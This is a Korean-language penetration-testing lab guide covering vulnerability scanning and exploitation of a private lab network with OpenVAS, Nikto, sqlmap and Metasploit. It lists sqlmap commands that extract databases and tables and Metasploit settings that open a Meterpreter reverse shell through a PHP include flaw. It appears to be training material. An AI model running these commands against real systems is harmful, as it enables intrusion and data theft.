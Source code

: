 ### Goal

- 웹·시스템 취약점 스캐닝
    
- SQL 인젝션, 원격 코드 실행 등 실제 익스플로잇
    

---

### 주요 도구 & 해석

1. **OpenVAS (Greenbone Vulnerability Manager)**

    `sudo runuser -u _gvm -- gvmd   sudo gvm-cli socket --xml "<get_tasks/>"`  
    
    - **해석**:
        
        - `gvmd` : GVM 데몬 실행
            
        - `gvm-cli` : 스캔 태스크 조회/API 호출
            
2. **Nikto (웹 서버 스캐너)**

    `nikto -h http://192.168.56.101 -o nikto_report.txt`
    
    - **해석**:
        
        - `-h` : 타겟 URL
            
        - `-o` : 결과 파일 저장
            
3. **SQLmap (SQL 인젝션 자동화)**
  
    `sqlmap -u "http://192.168.56.101/login.php?user=admin&pass=123" --batch --dbs`
    
    - **해석**:
        
        - `-u` : 대상 URL
            
        - `--batch` : 대화형 없이 자동 실행
            
        - `--dbs` : 데이터베이스 목록 추출
            
4. **Metasploit Framework**
    `msfconsole   use exploit/multi/handler   set payload php/meterpreter/reverse_tcp   set LHOST 192.168.56.1   set LPORT 4444   exploit`
    
    - **해석**:
        
        - `use exploit/multi/handler` : 리버스 셸 리스너 준비
            
        - `payload`·`LHOST`·`LPORT` 설정 후 `exploit` 실행
            

---

### Lab Exercise 실습

1. **OpenVAS로 네트워크 취약점 스캔**
    
    - 웹 UI 또는 CLI로 스캔 태스크 생성 → 대상 `192.168.56.0/24`
        
    - 보고서(`.pdf`/`.html`) 다운로드 후 주요 CVSS ≥7.0 취약점 확인
        
2. **Nikto 웹 서버 점검**
    
    `nikto -h http://192.168.56.101 -o nikto_report.txt   grep “OSVDB” nikto_report.txt`  
    
    - **해석**: 보고서에서 주요 취약점 ID(OSVDB) 확인
        
3. **SQLmap으로 SQL 인젝션 공격**

    `sqlmap -u "http://192.168.56.101/vuln.php?id=1" --batch --tables -D vuln_db`
    
    - **해석**: `vuln_db` 데이터베이스의 테이블 목록 획득
        
4. **Metasploit으로 원격 코드 실행**

    `msfconsole   use exploit/unix/webapp/php_include   set RHOST 192.168.56.101   set PAYLOAD php/meterpreter/reverse_tcp   set LHOST 192.168.56.1   set LPORT 4444   run`
    
    - **해석**: PHP 인클루드 취약점을 이용해 Meterpreter 세션 획득
        
5. **취약점 검증 리포트 작성**
    
    - 주요 취약점 스크린샷, CVSS, PoC 코드·명령어 정리
        
    - Markdown 포맷으로 `vuln_report.md` 작성